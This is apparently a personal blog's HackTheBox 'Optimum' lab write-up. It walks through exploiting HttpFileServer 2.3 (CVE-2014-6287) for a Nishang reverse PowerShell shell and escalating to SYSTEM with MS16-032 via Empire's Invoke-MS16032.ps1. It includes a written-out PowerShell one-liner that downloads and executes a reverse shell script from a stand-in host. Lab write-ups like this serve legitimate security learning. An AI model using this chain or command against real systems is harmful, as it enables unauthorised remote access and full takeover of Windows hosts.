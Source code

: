 ```yaml
---
layout: single
title: HackTheBox - Optimum Writeup
permalink: /hackthebox-optimum-writeup/
excerpt: "Optimum is an easy box from HacktheBox. This machine offers a lot of opportunities to learn a bunch of exploits since this is an old machine. It's start by exploiting the HttpFileServer to gain the initial foothold. On top of that, it teaches me the importance of understanding architecture. Even though, the machine is 64-bit but it certainly can run the 32-bit version of powershell executable."
classes: wide
header:
  teaser: "/assets/images/htb/optimum/Optimum.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
  - writeup
tags:
  - reverse-powershell
  - rce
  - CVE-2014-6287
  - CVE-2016-0099
  - MS16-032
  - httpfileserver
  - empire-project
  - windows-sysnative
---
```



![hackthebox optimum title card](/assets/images/htb/optimum/Optimum.png)

# <font color="#9bffc8">Nmap</font>
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

# <font color="#9bffc8">HFS (HttpFileServer)</font>

> HTTP File Server, otherwise known as HFS, is a free web server specifically designed for publishing and sharing files.
> It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
> _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![1](/assets/images/htb/optimum/hfs-main-page.png)

# <font color="#9bffc8">CVE-2014-6287</font>
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

> CVE description:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

# <font color="#9bffc8">Burpsuite</font>
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![1](/assets/images/htb/optimum/burpsuite-search-ping.png)

![1](/assets/images/htb/optimum/tcpdump-ping-tun0.png)

# <font color="#9bffc8">Nishang: Invoke-PowerShellTcp.ps1</font>

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/hackthebox-responder-writeup/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/hackthebox-responder-writeup/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![1](/assets/images/htb/optimum/python3-server-and-nc-listening.png)

![1](/assets/images/htb/optimum/burpsuite-with-powershell-reverse-shell.png)

![1](/assets/images/htb/optimum/nc-catch-the-shell.png)

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![1](/assets/images/htb/optimum/run-the-systeminfo-command.png)

# <font color="#9bffc8">MS16-032 : CVE-2016-0099</font>

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

# <font color="9bffc8">EmpireProject: Invoke-MS16032.ps1</font>

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

> Empire is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. <br>
> _resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![1](/assets/images/htb/optimum/download-ms16032-wget.png)

![1](/assets/images/htb/optimum/edit-the-exploit-file-ms16032.png)

![1](/assets/images/htb/optimum/put-at-the-last-line.png)

# <font color="#9bffc8">Windows: sysnative</font>

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![1](/assets/images/htb/optimum/example-tested-exploit.png)

![1](/assets/images/htb/optimum/check-the-arc-of-powershell-32-bit.png)

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![1](/assets/images/htb/optimum/check-the-arc-of-powershell-64-bit.png)

# <font color="#9bffc8">Windows: Privilege Escalation</font>

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![1](/assets/images/htb/optimum/last-image.png)